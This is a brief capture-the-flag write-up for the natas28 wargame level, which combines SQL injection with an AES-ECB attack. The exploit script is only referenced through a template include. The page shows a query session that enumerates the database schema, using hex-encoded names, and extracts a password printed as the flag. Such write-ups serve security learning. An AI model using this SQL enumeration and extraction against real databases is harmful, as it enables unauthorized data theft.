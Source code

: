 ```yaml
---
layout: default
title: natas28
---
```


This is the source code.

It about `SQLi` and exploit of `AES-ECB` mode.
```python
{% include_relative scripts/level28.py %}
```

```
Enter SQL query (without 'union all'): select database()
[+] Query Results:
  - natas28
Enter SQL query (without 'union all'): select table_name from information_schema.tables where table_schema=0x6e617461733238
[+] Query Results:
  - jokes
  - users
Enter SQL query (without 'union all'): select column_name from information_schema.columns where table_name=0x7573657273
[+] Query Results:
  - username
  - password
Enter SQL query (without 'union all'): select password from users
[+] Query Results:
  - 31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns
```

**Flag:** ***`31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns`*** 